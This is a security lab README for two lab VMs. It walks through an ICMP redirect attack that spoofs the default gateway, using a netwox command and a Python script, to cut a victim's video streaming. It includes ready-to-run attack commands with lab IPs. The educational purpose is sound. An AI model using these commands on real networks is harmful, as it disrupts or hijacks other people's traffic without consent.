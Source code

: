 ## ICMP Redirect Attack

### Background

ICMP Redirects serve many performance benefits. Read [here](../../notes/icmp/icmp_redirect.md) for the benefits.

But it can also be exploited in attacks, and that is known as the ICMP redirect attack. An ICMP redirect attack involves sending ICMP redirect messages to a victim machine. These messages instruct the victim to use a different gateway (the attacker's machine) for reaching a particular destination.

### Requirement

In this lab, you will disrupt a victim machine's connection to a video streaming service.

### Setup

2 Linux VMs. VM1 as the victim; VM3 as the attacker. The 2 VMs reside in the same network. The following is the IP addresses for the VMs used in this README.

| VM  |  IP Address   |   Role   |
|-----|---------------|----------|
| VM1 |  10.0.2.4     |  victim  |
| VM3 |  10.0.2.6     | attacker |

### Preparation steps:

On the victim VM, enable ICMP redirect feature:

```console
sudo sysctl net.ipv4.conf.all.accept_redirects=1
sudo sysctl net.ipv4.conf.default.accept_redirects=1
```

Setting these two flags to 1 means that the victim client accepts ICMP redirects packets, which oftentimes can provide performance benefits - although in this lab, such a feature is taken advantage by the attacker.
 
<!--

This attack only requires one netwox command, let's prepare the command first. This command is: sudo netwox 86 --device "ens33" --filter "src host victim_ip_address" --gw "attacker_ip_address" --src-ip "trusted_gateway_ip_address" --code 1

what this command does is: the attacker, mimicking the default gateway, sends an icmp redirect message to tell the victim: hey, please, going forward, use the attacker's ip address as your new gateway.

1. if the attacker's network interface card is not named "ens33", then change "ens33" to the network interface card's name.
2. replace "victim_ip_address" with your victim's IP address.
3. replace "attacker_ip_address" with your attacker's IP address.
4. find "trusted_gateway_ip_address" with netstat -r command. Following is an example, run netstat -r on the victim VM.

```console
[02/14/22]seed@VM:~$ netstat -r
Kernel IP routing table
Destination     Gateway         Genmask         Flags   MSS Window  irtt Iface
default         172.16.77.2     0.0.0.0         UG        0 0          0 ens33
link-local      *               255.255.0.0     U         0 0          0 ens33
172.16.77.0     *               255.255.255.0   U         0 0          0 ens33
[02/14/22]seed@VM:~$ 
```

The above command says 172.16.77.2 is the default gateway, so that's the gateway the victim machine trusts. Therefore, let's assume the victim's ip address is 172.16.77.128, and the attacker's ip address is 172.16.77.129, then we should come up with this following command:

sudo netwox 86 --device "ens33" --filter "src host 172.16.77.128" --gw "172.16.77.129" --src-ip "172.16.77.2" --code 1

question: can you find out what "--code 1" means?

**troubleshooting**: if the netstat -r does not show the ip address of your gateway, you can use this other command:

```console
[05/23/22]seed@VM:~$ ip route show
default via 172.16.77.2 dev ens33 onlink 
142.250.0.0/16 dev tun0  scope link 
169.254.0.0/16 dev ens33  scope link  metric 1000 
172.16.77.0/24 dev ens33  proto kernel  scope link  src 172.16.77.128 
192.168.53.0/24 dev tun0  scope link 
192.168.53.0/24 dev tun0  proto kernel  scope link  src 192.168.53.5 
```

this command also shows, 172.16.77.2 is VM1's default gateway.

-->

### Attack steps:

<!-- #### Part 1

1. victim, run: 

```console
$ ping www.google.com
```

make sure your ping command works and you do get responses from google, otherwise this lab makes no sense.

this screenshot shows ping works:

![alt text](lab-icmp-ping-works.png "ping works at first")

if ping works, press ctrl-c to stop the ping command and move on to step 2.

2. attacker, run that attack command: 

```console
$ sudo netwox 86 --device "ens33" --filter "src host 172.16.77.128" --gw "172.16.77.129" --src-ip "172.16.77.2" --code 1
```

![alt text](lab-icmp-attack-command.png "launch the attack")

3. victim, run: 

```console
$ ping www.google.com
```

this time it may still succeed, or at least you will still get some responses like this:

![alt text](lab-icmp-ping-partially-works.png "ping only gets some reponses")

4: attacker, press ctrl-c to stop the attack command.

5: victim, run: 

```console
$ ping www.google.com
```

this time it should fail, thus it proves the attack is successful:

![alt text](lab-icmp-ping-fails.png "ping fails")

#### Part 2

the next two steps attempt a new attack which disrupts the victim's video streaming service:
-->

1. victim, opens firefox, watches some youtube video.

2. attacker, impersonates the default gateway, keeps sending ICMP redirect packets to the victim which instruct the victim to use a different gateway (the attacker's machine) for reaching its destination.  You can use this script to send the icmp redirect packets: [icmp_redirect](icmp_redirect.py), before you can run the script, change the following 4 lines to match with your settings.

```console
victim_ip = "10.0.2.4"
default_gateway_ip = "10.0.2.1"
attacker_ip = "10.0.2.6"
iface = "enp0s3"  # replace with your network interface name
```

**Note**: how to find the default gateway ip address in the victim VM and how to find the network interface name? Run this command in the victim VM:

```console
$ ip route
default via 10.0.2.1 dev enp0s3 proto dhcp metric 100 
10.0.2.0/24 dev enp0s3 proto kernel scope link src 10.0.2.4 metric 100 
169.254.0.0/16 dev enp0s3 scope link metric 1000 
172.17.0.0/16 dev docker0 proto kernel scope link src 172.17.0.1 linkdown 
```

In the above output, the ip address after the "default via" is the default gateway; here in this example, it is 10.0.2.1; and the string after the "dev" is the network interface name, in this example, it is "enp0s3".

3. run the script in the attacker VM:

```console
$ sudo python3 icmp_redirect.py
```

if successful, victim won't be able to watch the youtude video. The following two screenshots show before pressing enter and after pressing enter (to execute the attacking script):

before pressing enter:

![alt text](lab-icmp-youtube-before-enter.png "before pressing enter")

after pressing enter: 

![alt text](lab-icmp-youtube-after-enter.png "after pressing enter")

This second screenshot shows the attack is successful and this concludes this lab.

**Note**: due to the buffering effect, the video won't be stopped immediately, you may need to wait for a few seconds or maybe one minute until the buffered content has been played.
